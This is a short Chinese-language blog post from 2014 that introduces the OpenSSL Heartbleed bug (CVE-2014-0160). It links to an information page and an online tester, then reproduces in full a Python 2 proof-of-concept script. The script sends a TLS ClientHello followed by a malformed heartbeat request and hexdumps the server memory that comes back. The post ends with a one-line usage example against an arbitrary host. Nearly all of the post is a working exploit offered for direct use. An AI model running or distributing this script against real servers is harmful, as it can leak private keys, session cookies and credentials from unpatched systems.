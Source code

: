 ```yaml
---
author: xljroy
comments: true
date: 2014-04-10 02:23:27+00:00
layout: post
slug: openssl-heartbleed-bug-exploit-demo
title: Openssl Heartbleed Bug Exploit Demo
wordpress_id: 292
categories:
- Hacker
- Dev
---
```


关于这次的Heartbleed的具体消息请查看 [Heartbleed Bug](http://heartbleed.com/)

Github上的大神制作的测试网站是否收到这个漏洞影响的服务[Heartbleed test](http://filippo.io/Heartbleed/)

上面的信息已经很全了,我也不多说啦,直接放代码


    #!/usr/bin/python

    # Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
    # The author disclaims copyright to this source code.

    import sys
    import struct
    import socket
    import time
    import select
    import re
    from optparse import OptionParser

    options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
    options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')

    def h2bin(x):
        return x.replace(' ', '').replace('\n', '').decode('hex')

    hello = h2bin('''
    16 03 02 00  dc 01 00 00 d8 03 02 53
    43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
    bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
    00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
    00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
    c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
    c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
    c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
    c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
    00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
    03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
    00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
    00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
    00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
    00 0f 00 01 01                                  
    ''')

    hb = h2bin('''
    18 03 02 00 03
    01 40 00
    ''')

    def hexdump(s):
        for b in xrange(0, len(s), 16):
            lin = [c for c in s[b : b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in lin)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.' )for c in lin)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def recvall(s, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([s], [], [], 5)
            if s in r:
                data = s.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def recvmsg(s):
        hdr = recvall(s, 5)
        if hdr is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        typ, ver, ln = struct.unpack('>BHH', hdr)
        pay = recvall(s, ln, 10)
        if pay is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return typ, ver, pay

    def hit_hb(s):
        s.send(hb)
        while True:
            typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
                if len(pay) > 3:
                    print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False

    def main():
        opts, args = options.parse_args()
        if len(args) < 1:
            options.print_help()
            return

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        print 'Connecting...'
        sys.stdout.flush()
        s.connect((args[0], opts.port))
        print 'Sending Client Hello...'
        sys.stdout.flush()
        s.send(hello)
        print 'Waiting for Server Hello...'
        sys.stdout.flush()
        while True:
            typ, ver, pay = recvmsg(s)
            if typ == None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if typ == 22 and ord(pay[0]) == 0x0E:
                break

        print 'Sending heartbeat request...'
        sys.stdout.flush()
        s.send(hb)
        hit_hb(s)

    if __name__ == '__main__':
        main()


具体使用方法:

python openssl.py XXX.com
